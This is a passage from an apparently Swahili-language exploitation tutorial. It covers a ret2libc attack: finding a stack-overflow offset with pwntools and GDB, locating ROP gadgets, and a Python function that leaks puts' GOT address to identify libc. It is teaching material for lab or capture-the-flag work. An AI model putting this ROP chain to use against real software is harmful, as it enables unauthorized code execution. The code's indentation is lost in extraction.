 ```bash
return
```
**Tekeleza** `python template.py` itafungua GDB console na programu itakuwa imeanguka. Ndani ya **GDB console** tekeleza `x/wx $rsp` kupata **bytes** ambazo zilikuwa zinaenda kufunika RIP. Hatimaye pata **offset** ukitumia **python** console:
```python
from pwn import *
cyclic_find(0x6161616b)
```
![](<../../../../images/image (1007).png>)

Baada ya kupata offset (katika kesi hii 40) badilisha variable ya OFFSET ndani ya template ukitumia thamani hiyo.\
`OFFSET = "A" * 40`

Njia nyingine ingekuwa kutumia: `pattern create 1000` -- _tekeleza hadi ret_ -- `pattern seach $rsp` kutoka GEF.

## 2- Kupata Gadgets

Sasa tunahitaji kupata ROP gadgets ndani ya binary. Hizi ROP gadgets zitakuwa muhimu kuita `puts` ili kupata **libc** inayotumika, na baadaye **kuanzisha exploit ya mwisho**.
```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
The `PUTS_PLT` inahitajika kuita **function puts**.\
The `MAIN_PLT` inahitajika kuita **main function** tena baada ya mwingiliano mmoja ili **exploit** overflow **tena** (mizunguko isiyo na mwisho ya exploitation). **Inatumika mwishoni mwa kila ROP kuita programu tena**.\
The **POP_RDI** inahitajika **kupitisha** **parameter** kwa function iliyoitwa.

Katika hatua hii huwezi kutekeleza chochote kwani kila kitu kitapatikana na pwntools wakati wa utekelezaji.

## 3- Kutafuta maktaba ya libc

Sasa ni wakati wa kutafuta ni toleo gani la **libc** maktaba linatumika. Ili kufanya hivyo tutakuwa na **leak** **anwani** katika kumbukumbu ya **function** `puts` na kisha tutatafuta ni **library version** gani ambayo toleo la puts liko katika anwani hiyo.
```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
```